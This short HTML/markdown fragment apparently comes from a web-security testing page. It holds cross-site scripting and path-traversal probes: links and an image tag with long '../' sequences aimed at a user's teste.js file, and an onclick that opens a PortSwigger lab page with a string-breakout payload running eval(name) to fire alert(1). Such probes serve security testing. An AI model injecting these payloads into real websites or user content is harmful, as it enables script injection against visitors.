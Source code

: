 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<a href=# download="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">Test</a>
<img referrerpolicy="no-referrer" src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<a href=# onclick="window.open('http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//','alert(1)')">XSS</a>
